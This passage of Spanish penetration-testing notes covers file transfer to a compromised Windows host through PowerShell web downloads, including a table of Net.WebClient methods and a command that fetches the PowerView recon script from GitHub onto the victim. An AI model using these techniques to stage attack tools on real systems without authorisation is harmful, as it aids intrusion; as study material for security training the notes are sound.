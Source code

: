 Este método se puede utilizar cuando tengo una shell interactiva con la víctima, pues, lo que escribo con mi teclado lo puedo ejecutar en dicha terminal.
La longitud máxima de caracteres de la PoweShell de Windows está limitada a 8191, pues, archivos muy grandes no los podré transmitir.

## 2. PowerShell Web Downloads
Hay firewalls que permiten el uso de métodos como el HTTP y HTTPS pero pueden ser más restrictivos a la hora de la descarga de archivos .exe.

PowerShell tiene varios métodos para aprovechar la descarga de estos contenidos:

| Método                  | Qué hace                                                                     | Sincronía* |
| ----------------------- | ---------------------------------------------------------------------------- | ---------- |
| **OpenRead**            | Devuelve los datos de un recurso como un **Stream** (flujo de bytes).        | Síncrono   |
| **OpenReadAsync**       | Devuelve los datos de un recurso como Stream sin bloquear el hilo que llama. | Asíncrono  |
| **DownloadData**        | Descarga los datos de un recurso y los devuelve como **array de bytes**.     | Síncrono   |
| **DownloadDataAsync**   | Descarga los datos y los devuelve como array de bytes **sin bloquear**.      | Asíncrono  |
| **DownloadFile**        | Descarga los datos de un recurso y los guarda en un **archivo local**.       | Síncrono   |
| **DownloadFileAsync**   | Descarga los datos y los guarda en un archivo local **sin bloquear**.        | Asíncrono  |
| **DownloadString**      | Descarga los datos de un recurso y los devuelve como **string** de texto.    | Síncrono   |
| **DownloadStringAsync** | Descarga los datos como string **sin bloquear** el hilo que llama.           | Asíncrono  |

- **Síncrono** → el comando espera a que termine la descarga antes de continuar.
- **Asíncrono** → la descarga ocurre en segundo plano, permitiendo que el script siga ejecutándose.

#### A. PowerShell – Método `DownloadFile` de `Net.WebClient`
Para descargar archivos desde una URL a un archivo local en Windows.
- **Clase utilizada:** `Net.WebClient`
- **Sintaxis básica (síncrona):**
```
(New-Object Net.WebClient).DownloadFile('<URL del archivo>', '<Ruta local de salida>')`
```

- **Ejemplo:**
```
(New-Object Net.WebClient).DownloadFile(     https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',     C:\Users\Public\Downloads\PowerView.ps1' )`
```

- **Versión asíncrona:**
`(New-Object Net.WebClient).DownloadFileAsync('<URL del archivo>', '<Ruta local de salida>')`

- **Notas importantes:**
    - `DownloadFile` → Bloquea la ejecución hasta que la descarga termine.
    - `DownloadFileAsync` → Permite que el script siga ejecutándose mientras se descarga en segundo plano.
    - Útil para transferir archivos cuando la red permite HTTP/HTTPS saliente.
    - Se puede usar en entornos donde FTP o SMB están bloqueados pero HTTP/HTTPS está permitido.
